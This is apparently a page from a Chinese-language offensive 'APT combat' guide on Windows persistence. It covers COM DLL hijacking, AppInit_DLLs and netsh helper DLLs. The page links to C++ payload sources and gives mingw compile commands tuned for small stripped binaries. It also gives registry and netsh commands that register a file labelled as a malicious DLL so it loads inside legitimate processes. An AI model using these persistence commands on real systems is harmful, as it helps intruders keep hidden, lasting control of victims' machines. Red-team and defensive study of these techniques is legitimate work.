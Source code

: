 ### COM DLL劫持

[com_dll.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/com_dll.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 com_dll.cpp -o com_dll.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
Set-ItemProperty -Path "HKCR:\CLSID\{CLSID}\InprocServer32" -Name "(default)" -Value "C:\Path\To\Malicious.dll"
reg delete "HKCU\Software\Classes\CLSID\{CLSID}" /f
```

### AppInit_DLLs

[AppInit_DLLs.wolf.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/AppInit_DLLs.wolf.cpp)

```Bash
x86_64-w64-mingw32-gcc -shared -o wolf.dll wolf.cpp -fpermissive
```

[AppInit.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/AppInit.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 AppInit.cpp -o AppInit.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /f
```

### netsh helper DLL

[netsh_dll.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/netsh_dll.cpp)

```Bash
x86_64-w64-mingw32-gcc -shared -o netsh.dll netsh_dll.cpp -fpermissive
```

```Bash
netsh
add helper 恶意DLL路径
```

[netsh_pers.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/netsh_pers.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 netsh_pers.cpp -o netsh_pers.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
